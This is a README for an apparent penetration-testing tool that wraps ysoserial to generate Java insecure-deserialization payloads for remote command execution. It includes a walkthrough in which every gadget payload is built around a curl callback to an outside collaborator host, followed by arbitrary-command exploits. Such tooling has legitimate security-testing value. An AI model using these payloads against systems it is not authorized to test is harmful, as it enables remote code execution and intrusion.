

# ysoserial-wrapper

Python wrapper based for [ysoserial](https://github.com/frohoff/ysoserial) to make exploitation of the JAVA [Insecure Deserialization](https://portswigger.net/web-security/deserialization) user-friendly.

## Requirements
- Installed JAVA JDK 11
Kali:
```shell
sudo apt-get install openjdk-11-jdk
```
- Some python dependencies
```
pip3 install -r requirements.txt
```
- ysoserial itself
```
wget https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar
```

## Usage
```
python ysoserial-wrapper.py -h
usage: ysoserial-wrapper.py [-h] [-c 'COMMAND'] [-gzip] [-b64]

ysoserial-wrap.py - Command execution wrapper for ysoserial-all.jar

options:
  -h, --help            show this help message and exit
  -c 'COMMAND', --command 'COMMAND'
                        Command to be executed
  -gzip                 Compress the payload with gzip before encoding in base64
  -b64                  Do not url-encode, output base64 string

```

## Walkthrough
Without any parameters given, it will ask for a collaborator url:
```
python ysoserial-wrapper.py   
[*] No payload defined, using curl <collaborator_payload>/[payload_name]
[!]	Enter your collaborator payload:

```
and build every possible payload using command:
```
curl <collaborator_payload>/[payload_name]
```
and copy them to clipboard:
```
[+]		Generating Spring1 payload ...
[+]		Generating Spring2 payload ...
[+]		Generating URLDNS payload ...
[+]		Generating Vaadin1 payload ...

[!] There are 26 payloads waiting in your clipboard ...

```

You can use them in an Intruder attack to check which payloads worked:


Then it will ask for payloads, which wored ...
```
[!] Paste in the payloads that worked (separated by spaces)
```
... and a command to execute
```
[!] Paste in the command you want to execute:
```

Nothing more to say:
```
[+]		Generating exploit with payload CommonsCollections2 ...
[+]		Generating exploit with payload CommonsCollections4 ...

[!] There are 2 exploits waiting in your clipboard... 
Good luck

```

## Worth reading

By default, the raw payload will be base64 encoded and next url encoded.
There are 2 switches to modify this behaviour:
- `-gzip` - will make the script to compress raw payload before encoding in base64
- `-b64` - will turn off url encoding, you will get a base64 encoded payload

You can also use `-c` or `-command` switch to generate payloads of your choice from the start.
Beware of quotes in commands :)

I also added a simple `.bcheck` snippet that will detect placing serialized cookies.
